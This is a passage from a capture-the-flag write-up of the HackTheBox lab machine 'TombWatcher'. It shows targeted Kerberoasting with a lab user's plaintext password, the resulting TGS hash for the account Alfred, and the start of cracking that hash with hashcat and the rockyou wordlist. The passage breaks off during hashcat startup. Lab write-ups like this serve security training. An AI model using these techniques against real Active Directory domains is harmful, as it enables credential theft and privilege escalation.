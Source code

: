 
![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-06-14-week4-tombwatcher.md/2025-06-14-week4-tombwatcher/image.png)

Looks like we have a very clear escalation path from henry to john. Bloodhound gives us all the summary commands we need to exploit each permission along the way until we can get to where we're going, so what follows is a quick summary of getting to that point.


```python
!python targetedKerberoast/targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

    [1;34m[*][0m Starting kerberoast attacks
    [1;34m[*][0m Fetching usernames from Active Directory with LDAP
    [34m[VERBOSE][0m SPN added successfully for (Alfred)
    [1;32m[+][0m Printing hash for (Alfred)
    $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$81fe7b799f1d2dbb4f1bd077f510<snip>d9f49a0eb8d64750f67148695d7b0b39d
    [34m[VERBOSE][0m SPN removed successfully for (Alfred)


```sh
 hashcat -m 13100 henry.hash $(wordlists_path)/rockyou.txt
hashcat (6.2.6) starting

Failed to initialize the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.9.40) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 3090, 21888/24123 MB (6030 MB allocatable), 82MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
```
